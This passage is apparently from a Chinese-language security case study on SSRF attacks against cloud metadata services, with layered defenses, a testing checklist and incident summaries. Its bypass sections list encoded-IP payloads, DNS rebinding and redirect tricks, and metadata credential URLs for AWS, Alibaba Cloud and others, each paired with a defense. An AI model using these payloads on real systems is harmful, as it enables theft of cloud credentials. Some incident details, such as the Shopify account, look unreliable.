| 应用层 | URL 安全校验 | 低 | 阻断 SSRF 入口 | ✅ 直接阻断 |
| 应用层 | DNS Rebinding 防护 | 低 | 防止校验绕过 | ✅ 增强防护 |
| 应用层 | 频率限制 | 低 | 减慢攻击速度 | ⚠️ 延迟但不阻断 |
| 实例层 | IMDSv2 | 低 | 防止元数据窃取 | ✅ 阻断凭证获取 |
| 实例层 | iptables 限制 | 中 | 容器环境防护 | ✅ 网络层阻断 |
| IAM 层 | 最小权限 | 中 | 限制凭证价值 | ⚠️ 减小影响范围 |
| IAM 层 | 权限边界 | 中 | 兜底权限上限 | ⚠️ 减小影响范围 |
| 监控层 | GuardDuty | 低 | 自动检测异常 | ⚠️ 检测而非阻断 |
| 监控层 | CloudTrail 告警 | 低 | 事后追溯 | ⚠️ 检测而非阻断 |

> **核心原则**：不要依赖单一防线。本案例中，只要"URL 安全校验"或"IMDSv2"任一措施到位，攻击链就会被打断。纵深防御的意义在于——即使某一层失效，其他层仍能阻断攻击。

---

### 进阶攻击技术与防御

以下是 SSRF 攻击中更高级的技术手段，安全测试人员应了解以便评估防御体系的健壮性。

#### Bypass 技术一：编码绕过

当应用仅对原始 IP 做字符串匹配时，攻击者可以使用各种编码形式绕过：

```text
# 十进制表示
http://2130706433/        = http://127.0.0.1/
http://2852039166/        = http://169.254.169.254/

# 八进制表示
http://0177.0.0.1/        = http://127.0.0.1/
http://0251.0377.0251.0377/ = http://169.254.169.254/

# 十六进制表示
http://0x7f.0x00.0x00.0x01/ = http://127.0.0.1/
http://0xa9fe.0xa9fe/       = http://169.254.169.254/

# IPv6 映射
http://[::ffff:169.254.169.254]/  = http://169.254.169.254/
http://[::ffff:a9fe:a9fe]/       = http://169.254.169.254/

# 混淆方式
http://169.254.169.254.xip.io/   = DNS解析到169.254.169.254
http://0xa9.0xfe.0xa9.0xfe/      = 十六进制混合
```

**防御**：始终使用 `ipaddress.ip_address()` 标准库解析后再做黑名单检查，不要对原始字符串做正则匹配。

#### Bypass 技术二：DNS Rebinding

```text
攻击流程：
1. 攻击者控制域名 evil.com
2. 第一次DNS查询：evil.com → 1.2.3.4（公网IP，通过白名单）
3. 应用验证通过，发起HTTP请求
4. 第二次DNS查询（TTL=0）：evil.com → 169.254.169.254（元数据IP）
5. HTTP请求实际到达元数据服务
```

**防御**：在 URL 验证时缓存 DNS 解析结果，并在实际请求时使用相同的解析结果（通过设置自定义 DNS resolver）。

#### Bypass 技术三：重定向跳转

```text
攻击流程：
1. 攻击者控制 redirect.example.com
2. 应用请求 http://redirect.example.com/path
3. 服务器返回 302 重定向到 http://169.254.169.254/latest/meta-data/
4. 如果应用跟随重定向，SSRF 成功
```

**防御**：设置 `allow_redirects=False`，或在每次重定向时重新验证目标 URL。

#### Bypass 技术四：云特有路径

不同云平台的元数据路径各不相同，黑名单如果只覆盖了 `169.254.169.254`，可能遗漏其他平台：

```bash
# AWS
http://169.254.169.254/latest/meta-data/

# 阿里云
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/ram/security-credentials/

# 腾讯云
http://metadata.tencentyun.com/latest/meta-data/

# GCP（需要特殊头）
http://metadata.google.internal/computeMetadata/v1/

# Azure
http://169.254.169.254/metadata/instance?api-version=2021-02-01
```

**防御**：将所有链路本地地址段（169.254.0.0/16）纳入黑名单，而非仅针对特定 IP。

---

### 真实世界案例参考

#### Capital One 数据泄露（2019）

| 项目 | 详情 |
|------|------|
| 时间 | 2019 年 3 月发现，7 月公开 |
| 影响 | 1.06 亿用户个人信息 |
| 损失 | 约 1.5 亿美元（罚款 + 诉讼和解） |
| 攻击路径 | WAF 配置错误 → SSRF → IMDSv1 → IAM 凭证 → S3 数据 |
| 关键缺陷 | WAF 配置变更引入了 SSRF 漏洞；EC2 使用 IMDSv1；IAM 角色权限过大 |
| 参考 | [AWS 官方声明](https://aws.amazon.com/blogs/security/the-amazon-s3-outage-and-capital-one/) |

#### SSRF 影响的其他重大事件

- **Shopify（2019）**：研究人员通过 SSRF 访问了 GCP 内部元数据，获取了 AWS 凭证（跨云环境）
- **GitLab（2021）**：SSRF 漏洞允许访问 Kubernetes 集群的 Service Account Token
- **IMDS 攻击研究（2024）**：多个研究团队演示了 IMDSv2 在特定配置下的绕过技术

---

### 安全测试 Checklist

安全团队可以使用以下 Checklist 评估自身环境对 SSRF + 元数据攻击的防护水平：

```text
应用层
  [ ] 所有接受URL输入的接口都有安全校验
  [ ] URL校验覆盖所有编码绕过形式
  [ ] DNS Rebinding防护已实现
  [ ] HTTP重定向已禁用或重新校验
  [ ] 请求频率限制已启用
  [ ] 响应大小已限制
  [ ] 协议白名单已配置（仅允许http/https）

实例层
  [ ] 所有EC2实例已强制IMDSv2
  [ ] 组织级SCP已禁止创建IMDSv1实例
  [ ] hop-limit已根据实际环境正确设置
  [ ] 容器环境有额外的iptables/网络策略限制

IAM层
  [ ] 所有实例角色遵循最小权限原则
  [ ] 权限边界已应用于所有角色
  [ ] 权限审计定期执行（至少每季度）
  [ ] 临时凭证有效期已设置为最短（1小时）

监控层
  [ ] CloudTrail已启用且不可被实例角色关闭
  [ ] 元数据访问日志已记录
  [ ] 异常API调用告警已配置
  [ ] GuardDuty已启用
  [ ] 大文件下载告警已配置
  [ ] 安全事件响应流程已建立并定期演练
```

---

### 经验教训

1. **纵深防御不是可选项**：本案例中，应用层校验、IMDSv2、最小权限 IAM 三者中任一措施到位即可阻断攻击链。但该企业三层全部缺失，导致攻击者畅通无阻。

2. **IMDSv2 是基线要求**：所有新创建的 EC2 实例必须强制使用 IMDSv2。已有的旧实例应尽快迁移，并通过 SCP 在组织层面强制执行。

3. **IAM 角色不是"服务账号"**：许多团队将 IAM 角色视为"给应用用的服务账号"，给予了远超所需的权限。IAM 角色的权限应精确到具体资源和具体操作。

4. **云元数据是高价值目标**：任何能够发起 HTTP 请求的 SSRF 漏洞，在云环境中都应被视为"可获取凭证"的高危漏洞，而非简单的信息泄露。

5. **安全配置变更需要审计**：Capital One 事件的根本原因之一是 WAF 配置变更引入了新的攻击面。所有安全组、IAM 策略、网络 ACL 的变更都应经过安全评审。

6. **监控是最后一道防线**：即使所有预防措施都失效，及时的告警和响应仍然可以将损失降到最低。没有监控的系统就像没有火警的建筑——问题不在于会不会着火，而在于着火时你多久才能知道。

***

> **延伸阅读**：[AWS IMDSv2 官方文档](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) | [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html) | [Capital One 安全事件事后分析](https://www.capitalone.com/learn-grow/culture/what-we-learned/)
